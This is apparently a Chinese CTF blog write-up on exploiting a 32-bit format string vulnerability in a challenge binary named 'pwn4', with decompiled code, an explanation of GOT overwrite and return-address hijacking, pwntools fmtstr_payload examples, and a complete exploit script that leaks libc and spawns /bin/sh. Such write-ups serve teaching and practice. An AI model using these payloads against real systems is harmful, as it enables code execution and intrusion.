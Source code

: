 ```yaml
---
layout:     post
title:      "32位fmtstr漏洞利用"
subtitle:   "记一32位格式化字符串漏洞利用"
date:       2018-09-01 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - 笔记
 
---
```



## 0x00 代码分析

1，检查保护

	[*] '/home/chris/Pwn/pwn4'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)

 只开了NX

2，使用IDA分析程序流程

main 函数分析

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  char buf; // [esp+0h] [ebp-88h]
	
	  puts("please login first");
	  fflush(stdout);
	  login();
	  if ( login_flag )
	  {
	    printf("welcome~%s,the present for first meet~%p\n", &name, &buf);
	    puts("do you have something say to me~");
	    fflush(stdout);
	    if ( read(0, &buf, 0x80u) < 0 )
	    {
	      puts("read error");
	      exit(0);
	    }
	    printf(&buf);
	  }
	  else
	  {
	    puts("please login first!");
	    login();
	  }
	  return 0;
	}


login 函数分析

	int login()
	{
	  puts("your name:");
	  fflush(stdout);
	  if ( read(0, &name, 0x20u) < 0 )
	  {
	    puts("read error");
	    exit(0);
	  }
	  login_flag = 1;
	  return puts("logined!");
	}

程序定义了一个buf[88]的数组，首先让输入你的名字，然后再打印出刚才输入的名字和buf的栈地址，然后再让你输入一个字符串，打印出这个字符串。


## 0x01 漏洞分析与利用

首先分析输入name的地方，name的地址在bss段，不在栈中无法溢出。输入buf的地方，buf虽然在栈中，大小为`ebp-88h`，但是输入的地方`read(0, &buf, 0x80u)`，长度不能够溢出。明显`printf(&buf);`存在格式化字符串漏洞。


很明显的格式化字符串漏洞了，执行一个任意地址泄露和任意地址写（泄露printf函数的plt.got表内地址，往main函数ret地址写一个main函数地址，回去二次执行程序流程）。因为前面泄露了地址，程序提供了libc库，算出system函数实际地址，第二次就往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。最后printf（&system("/bin/sh")）拿到shell。

## 0X02 fmtstr_payload介绍

这里介绍一个pwntools自带的格式化字符串任意地址写的函数：**fmtstr_payload**

`fmtstr_payload（offset，writes，numbwritten = 0，write_size ='byte' ）`

使用给定参数创建有效负载。它可以为32位或64位架构生成有效负载。addr的大小取自`context.bits`

参数：

* offset（int） - 您控制的第一个格式化程序的偏移量
* 字典（dict） - 被写入地址对应->写入的数据，可多个对应{addr: value, addr2: value2}
* numbwritten（int） - printf函数已写入的字节数
* write_size（str） - 必须是byte，short或int。告诉您是否要逐字节写入，短按short或int（hhn，hn或n）

例子：

	>>> context.clear(arch = 'amd64')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
	>>> context.clear(arch = 'i386')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00%322419386c%1$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'


## 0X03 完整利用过程

* 构造`p32(put_got)+"%4$s"`，同时这里还要往返回地址写一个main函数地址。找到`&buf+9c`偏移为ret地址，继续构造`fmtstr_payload(6,{ret:main},12)`，参数6为4偏移加上泄露字符串的长度2DWORD,参数12为%s泄露出的地址和额外数据长度+4，因为%s以`'\0'`结尾,不同libc库环境可能这个参数数值不同，可自行根据判断调整。
* 成功泄露地址后算出system函数地址，第二次执行流程利用，同理`fmtstr_payload(4,{printf_got:system,ret+4:main},0,'short')+";/bin/sh;#"`往ret+4写是因为，第二次执行main函数后ret地址往后挪了一位。然后往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。不同的是这里的payload最后要写入个`;/bin/sh;#`因为第三次执行流程的`printf(&buf)`buf地址为第二次的buf地址偏一点点，用了参数截断，执行/bin/sh。




## 0x04 脚本

	from pwn import *
	context.log_level="debug"
	context.arch="i386"
	p = process("./pwn4")
	
	p.recvuntil("name:")
	p.sendline("A"*0x10)
	p.recvuntil("meet~")
	
	stack = int(p.recvuntil("\n",drop=True),16)
	
	print hex(stack)
	ret = stack + 0x9c
	print hex(ret)
	put_got = 0x804A018
	pay = p32(put_got)+"%4$s"
	
	pay2 = fmtstr_payload(6,{ret:0x804856E},12)
	pay = pay + pay2
	p.recvuntil("g say to me~")
	
	p.sendline(pay)
	print p.recvuntil("\x18\xa0\x04\x08")
	puts = u32(p.recv(4))
	
	libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")
	
	system = puts - libc.symbols['puts'] + libc.symbols['system']
	
	sleep(2)
	p.send("A"*0x20)
	
	print hex(system)
	
	pay = fmtstr_payload(4,{0x804a010:system,ret+4:0x0804856e},0,'short')+";/bin/sh;#"
	
	p.send(pay)
	
	sleep(2)
	p.recvuntil("#")
	sleep(1)
	p.sendline("BBBBBB")
	
	p.interactive()

## 0x05 总结

其实这道题有个很简单的解法，直接往返回地址写rop，泄露地址，执行system，全部rop就搞定了

大致就这样 :

`exp1=fmtstr_payload(4,{ret:put_plt,ret+4:main,ret+8:put_got},0,'short')`

`exp2=fmtstr_payload(4,{ret:system_addr,ret+4:任意,ret+8:name_addr('/bin/sh')},0,'short')`

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/fmtstr%E5%88%A9%E7%94%A8%E4%B9%8Bpwn4)

